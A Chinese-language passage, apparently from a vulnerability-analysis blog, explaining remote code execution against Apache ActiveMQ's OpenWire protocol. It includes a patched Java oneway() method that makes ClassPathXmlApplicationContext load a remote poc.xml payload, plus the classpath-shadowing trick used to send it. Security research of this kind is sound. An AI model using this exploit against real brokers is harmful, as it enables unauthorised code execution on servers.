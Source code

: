 它的 oneway 方法会调用 wireFormat.marshal() 去序列化 command

command 就是前面准备发送的 ObjectMessage, 而 wireFormat 就是和它对应的序列化器

那么我们只需要手动 patch 这个方法, 将 command 改成 ExceptionResponse, 将 wireFormat 改成 ExceptionResponseMarshaller 即可

这里我没有分析 OpenWire 协议, 而是用了一个比较取巧的办法

在当前源码目录下新建一个 `org.apache.activemq.transport.tcp.TcpTransport` 类, 然后重写对应的逻辑, 这样在运行的时候, 因为 classpath 查找顺序的问题, 程序就会优先使用当前源码目录里的 TcpTransport 类

然后是 createThrowable 方法的利用, 这块其实跟 PostgreSQL JDBC 的利用类似, 因为 ActiveMQ 自带 spring 相关依赖, 那么就可以利用 ClassPathXmlApplicationContext 加载 XML 实现 RCE

```plain
public void oneway(Object command) throws IOException {
    this.checkStarted();
    Throwable obj = new ClassPathXmlApplicationContext("http://127.0.0.1:8000/poc.xml");
    ExceptionResponse response = new ExceptionResponse(obj);
   this.wireFormat.marshal(response, this.dataOut);
    this.dataOut.flush();
}
```

因为在 marshal 的时候会调用 `o.getClass().getName()` 获取类名, 而 getClass 方法无法重写 (final), 所以我在这里同样 patch 了 `org.springframework.context.support.ClassPathXmlApplicationContext`, 使其继承 Throwable 类

[![](assets/1698893277-17925dc160c06fdb87bc8b39c1725830.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026172550-a6fa4b00-73e1-1.png)
